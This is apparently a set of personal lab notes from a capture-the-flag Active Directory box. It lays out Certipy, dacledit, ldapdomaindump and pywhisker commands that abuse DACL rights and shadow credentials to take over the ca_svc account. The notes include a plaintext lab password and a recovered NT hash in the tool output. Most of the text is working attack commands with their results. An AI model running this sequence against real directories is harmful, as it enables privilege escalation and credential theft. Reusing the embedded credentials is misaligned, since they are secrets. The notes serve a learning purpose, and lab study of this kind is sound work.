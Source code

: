 ../bin/python3 entry.py find -u 'ryan' -p 'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51 -vulnerable -enabled -old-bloodhound

dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' '10.10.11.51'/"ryan":"WqSZAF6CysDQbGb3"

# this outputs the txt file
./bin/python3 ./certipy/entry.py find -u 'ryan' -p 'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51 -vulnerable -enabled 


# this enumerates certificates as ryan I have to do it as ca_svc

https://seriotonctf.github.io/2024/06/26/ADCS-Attacks-with-Certipy/index.html

# this explains really well wtf is going on 
https://i-tracing.com/blog/dacl-shadow-credentials/

pfx file is a certificate file

.pem format can also be certificate file 



ldapdomaindump -u 'SEQUEL'\\'ryan' -p 'WqSZAF6CysDQbGb3' 10.10.11.51


# pywhisker
https://github.com/ShutdownRepo/pywhisker.git


# explains well more simplified
https://medium.com/@NightFox007/exploiting-and-detecting-shadow-credentials-and-msds-keycredentiallink-in-active-directory-9268a587d204


# this has the commands for whisker and certipy use this
https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/key-credentials-abuse

 
# generate certificate for ca_svc user to log into that account
└> ./bin/python3 ./certipy/entry.py shadow auto -u 'ryan' -p 'WqSZAF6CysDQbGb3' -account 'ca_svc' -target DC01.SEQUEL.htb -dc-ip 10.10.11.51                    Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce

./bin/python3 certipy/entry.py shadow auto -u 'ryan@sequel.htb' -p "WqSZAF6CysDQbGb3" -account 'ca_svc' -dc-ip '10.10.11.51' -target dc01.sequel.htb -ns 10.10.11.51
Certipy v4.8.2 - by Oliver Lyak (ly4k)
